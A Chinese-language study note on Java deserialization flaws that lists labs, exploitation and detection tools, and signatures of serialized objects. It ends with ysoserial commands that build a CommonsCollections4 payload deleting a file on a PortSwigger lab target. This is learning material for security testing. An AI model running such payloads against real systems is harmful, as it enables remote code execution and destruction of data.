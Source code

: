 # Java反序列化漏洞

## 靶机

[PortSwigger](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

[java deserialize webapp](https://github.com/hvqzao/java-deserialize-webapp)

## 工具

[ysoserial](https://github.com/frohoff/ysoserial)

[ysoserial modified](https://github.com/pimps/ysoserial-modified)

[JRE8u20 RCE Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)

[jexboss](https://github.com/joaomatosf/jexboss)

[SerialBrute](https://github.com/NickstaDB/SerialBrute)

[SerializationDumper](https://github.com/NickstaDB/SerializationDumper)

[gadgetprobe](https://labs.bishopfox.com/gadgetprobe)

[marshalsec](https://github.com/mbechler/marshalsec)


## 检测

1.白盒

在代码中查找实现 Serialized 接口的类和java.io.ObjectInputStream、readObject、readUnshare 函数的使用

```bash
find . -iname "*commons*collection*"
grep -R InvokeTransformer .
```

2.黑盒

对于黑盒测试，查找表示 java 序列化对象（源自 ObjectInputStream）的特定签名或Magic Bytes：

+ 十六进制模式：AC ED 00 05
+ Base64 模式：rO0
+ Content-type 设置为 application/x-java-serialized-object 的 HTTP 响应标头
+ 指示先前压缩的十六进制模式：1F 8B 08 00
+ 表示先前压缩的 Base64 模式：H4sIA
+ 具有 .faces 扩展名和 faces.ViewState 参数的 Web 文件
```
javax.faces.ViewState=rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwdAAML2xvZ2luLnhodG1s
```

Burp扩展利用工具
[Java Serial Killer](https://github.com/NetSPI/JavaSerialKiller)

[Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)

[burp ysoserial](https://github.com/summitt/burp-ysoserial)

[SuperSerial](https://github.com/DirectDefense/SuperSerial)

[SuperSerial Active](https://github.com/DirectDefense/SuperSerial-Active)

## 简单漏洞利用

Apache Commons Collections
```bash
Java16及更高版本
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64

java15及以下：
java -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morole.txt" | base64
```
